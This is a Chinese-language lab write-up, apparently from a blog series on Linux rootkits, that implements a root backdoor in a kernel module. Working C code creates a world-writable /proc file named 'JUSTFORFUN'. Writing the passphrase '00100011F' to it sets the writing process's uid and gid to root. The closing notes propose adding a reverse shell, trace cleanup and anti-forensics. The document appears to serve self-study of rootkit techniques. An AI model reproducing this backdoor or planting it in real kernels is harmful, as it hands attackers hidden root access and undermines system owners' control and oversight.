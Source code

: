 ```yaml
---
category: rootkit
title: Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门
---
```


# {{ page.title }}

> 时人不识凌云木，直待凌云始道高。

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“提供 root 后门”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 提供 root 后门

这个后门参考之前很火的“全志科技”使用的代码。

简单来说，是这样：我们在`/proc`下创建一个文件，任何进程往其中写入特定的口令，我们就把它提升为`root`权限（把`uid`和`euid`等设为`0`）。

**这个文件可以用本系列后面的“隐藏文件”实验的方法隐藏掉。**

使用到的 API 是`proc_create`和`proc_remove`：

{% highlight c %}
// include/linux/proc_fs.h
// 参数分别是：文件名/访问模式/父目录/文件操作函数结构体
static inline struct proc_dir_entry *proc_create(
	const char *name, umode_t mode, struct proc_dir_entry *parent,
	const struct file_operations *proc_fops)
{
	return proc_create_data(name, mode, parent, proc_fops, NULL);
}
// fs/proc/generic.c
void proc_remove(struct proc_dir_entry *de)
{
	if (de)
		remove_proc_subtree(de->name, de->parent);
}
{% endhighlight %}

我们跟进看一下`struct file_operations`：

{% highlight c %}
// include/linux/fs.h
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
			loff_t, size_t, unsigned int);
	int (*clone_file_range)(struct file *, loff_t, struct file *, loff_t,
			u64);
	ssize_t (*dedupe_file_range)(struct file *, u64, u64, struct file *,
			u64);
};
{% endhighlight %}

其中是各种函数指针。我们目前只用到写操作处理函数：

{% highlight c %}
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
{% endhighlight %}

**下面开始行动！**

{% highlight c %}
// 声明写处理函数并放入结构体
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp);

struct file_operations proc_fops = {
    .write = write_handler
};

// 定义写处理函数
#define AUTH "00100011F"
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp)
{
    char *kbuff;
    struct cred* cred;

    // 分配内存。
    kbuff = kmalloc(count + 1, GFP_KERNEL);
    if (!kbuff) {
        return -ENOMEM;
    }

    // 复制到内核缓冲区。
    if (copy_from_user(kbuff, buff, count)) {
        kfree(kbuff);
        return -EFAULT;
    }
    kbuff[count] = (char)0;

    if (strlen(kbuff) == strlen(AUTH) &&
        strncmp(AUTH, kbuff, count) == 0) {

        // 用户进程写入的内容是我们的口令或者密码，
        // 把进程的 ``uid`` 与 ``gid`` 等等
        // 都设置成 ``root`` 账号的，将其提权到 ``root``。
        printk("%s\n", "Comrade, I will help you.");
        cred = (struct cred *)__task_cred(current);
        cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
        cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
        printk("%s\n", "See you!");
    } else {
        // 密码错误，拒绝提权。
        printk("Alien, get out of here: %s.\n", kbuff);
    }

    kfree(kbuff);
    return count;
}
{% endhighlight %}

最后，添加全局变量`struct proc_dir_entry *entry`，并分别在入口函数/出口函数中创建/删除我们的文件：

{% highlight c %}
#define NAME "JUSTFORFUN"
struct proc_dir_entry *entry;
// in init
entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);
// in exit
proc_remove(entry);
{% endhighlight %}

测试结果如下：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-8.png)

## 实验总结与思考

- 内核中的事情，真的是要细心。顺着 FreeBuf 的文章往下看时，`kbuff = kmalloc(count, GFP_KERNEL);`这个地方少分配了一个尾零。事实上应该是`kbuff = kmalloc(count + 1, GFP_KERNEL);`

- 另外注意：

是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err3.png)

而不是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err4.png)

- 个人以为 rootkit 应该提供一个能够远程连接的 root shell（对于内网的机器，用 reverse shell 是不是更好），并具备痕迹清理、自我删除甚至更强的反取证功能（另外，是否需要隐藏当前登录用户？）

## 参考资料

**已参考**

- [allwinner-zh/linux-3.4-sunxi](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

**拓展阅读**

- [This is what a root debug backdoor in a Linux kernel looks like](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/)
